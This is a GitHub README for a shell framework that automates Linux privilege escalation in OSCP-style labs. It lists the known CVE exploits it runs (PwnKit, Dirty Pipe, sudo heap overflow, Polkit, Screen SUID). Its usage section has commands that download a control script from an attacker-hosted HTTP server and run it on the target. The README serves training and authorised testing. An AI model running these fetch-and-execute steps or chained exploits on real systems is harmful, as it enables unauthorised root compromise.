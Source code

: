 
# worst-autoLinPrivesc

This is a modular shell-based automation framework designed to cut through noisy LinPEAS output during OSCP-style labs and exams. It focuses on the **same small handful of privilege escalation suggestions that LinPEAS repeatedly flags**, regardless of actual vulnerability.

This toolkit automates checks and execution for:
- PwnKit (CVE-2021-4034)
- sudoedit heap overflow (CVE-2021-3156)
- Dirty Pipe (CVE-2022-0847)
- Polkit (CVE-2021-3560)
- Screen v4.5.0 SUID (CVE-2017-5618)
- Basic kernel version matching
- LinPEAS + unix-privesc-check scanning
- LinPEAS post-processing parser (basic implementation)

## Why This Exists

In OffSec challenge labs and machines, **LinPEAS frequently suggests the same exploits** regardless of applicability. To streamline triage and reduce alert fatigue, this repo:
- Parses LinPEAS output for real leads (cron, processes, SUID)
- Auto-runs known kernel/heap exploits from hosted files
- Logs all results under `/tmp/c2_auto`

## Usage

On Kali:
```bash
python3 -m http.server 80
```

On target:
```bash
wget http://<kali-ip>/c2.sh
chmod +x c2.sh
./c2.sh --ip <kali-ip> --port 80
```

<img width="932" height="527" alt="image" src="https://github.com/user-attachments/assets/c523167c-c43b-45fb-a9d6-4e34269fc674" />


## Folder Structure

```
.
├── c2.sh                    # Main control & orchestration script
├── kernel_checks.sh         # Kernel exploit matcher
├── linpeas.sh               # Downloaded: PEASS-ng linPEAS
├── unix-privesc-check       # Downloaded: pentestmonkey tool
├── dirtypipe/               # CVE-2022-0847 Dirty Pipe compiled files
├── sudo-1.8.31/             # CVE-2021-3156 exploit & shellcode
├── polkadots                # CVE-2021-3560 compiled binary
├── pwnkit.sh, screen450.sh, etc.   # Per-exploit modules
```

## External Sources

These files are used as-is from their respective authors:

- linpeas.sh from [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- unix-privesc-check from [pentestmonkey](https://github.com/pentestmonkey/unix-privesc-check)
- PwnKit from [ly4k](https://github.com/ly4k/PwnKit)
- sudo-1.8.31 from [Whiteh4tWolf](https://github.com/Whiteh4tWolf/Sudo-1.8.31-Root-Exploit)
- Dirty Pipe from [AlexisAhmed](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
- Polkit from [swapravo](https://github.com/swapravo/polkadots)

## License & Ethics

For educational use only. This repo automates noisy-but-low-risk local exploits.  
Use only in environments you have **explicit permission** to test.

No warranty. No support.
